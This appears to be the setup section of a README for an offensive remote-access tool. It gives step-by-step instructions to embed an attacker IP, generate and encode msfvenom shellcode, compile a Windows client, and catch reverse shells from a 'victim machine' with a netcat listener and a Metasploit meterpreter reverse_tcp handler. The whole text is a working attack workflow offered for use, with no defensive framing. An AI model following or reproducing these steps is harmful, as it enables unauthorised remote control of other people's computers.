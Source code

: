 # Setup

After cloning the whole project and getting inside of the x64 folder:

1. Open Client.c and replace the contents of the variable ServerIP at line 30 with the IP address of the attacker machine

2. From the terminal, generate the shellcode for ShellcodeX64 using the first commented msfvenom command (Line 49) (Replace the LHOST variable with the IP address of the attacker machine)

3. Now Generate the respective shellcodes for ShellcodeSpawnNetcat and FallBackShell using the last 2 commented msfvenom commands (Lines 51 and 53) (Replace the LHOST variables like before)

4. Copy the output shellcodes of msfvenom for ShellcodeSpawnNetcat and FallBackShell, and paste them inside of ESH.c for the respective variables

5. Compile and execute ESH.c
```bash
gcc ESH.c -o esh && ./esh
```

6. Grab the output of esh, and replace ShellcodeSpawnNetcat and FallBackShell inside of the Client.c file and save.

7. Open Server.c and replace the contents at line 14 with the IP address of the attacker machine and save.

8. You should now be good to go, compile everything by typing:
```bash
x86_64-w64-mingw32-gcc -o Client.exe Client.c -lwsock32 -lwininet -lgdi32 -lntdll && gcc Server.c -o Server -lpthread && echo "Compilation Successful"
```

9. If everything went correctly, the string "Compilation Successful" should popup on your terminal. If not, there was an error when trying to compile. Make sure you did everything correctly.

10. Setting the server: Before executing the Client on the victim machine, you must make sure to open another tab in your terminal (On the attacker machine), and execute the following command:
```bash
nc -lvnp 38524
```

If you don't do this, when executing Client.exe, no reverse shell will be received due to the fact that you weren't listening on port 38524, and Client.exe will crash (The same thing will happen if you decide to send 'startcat' before listening for a connection on port 443)

11. Now you should start the main server by typing:
```bash
./Server start
```

12. msfconsole commands for Inject64:
```bash
use exploit/multi/handler
set LHOST SERVER-IP
set LPORT 4444
set payload windows/x64/meterpreter/reverse_tcp
run
```

Everything should now be ready. Enjoy :)
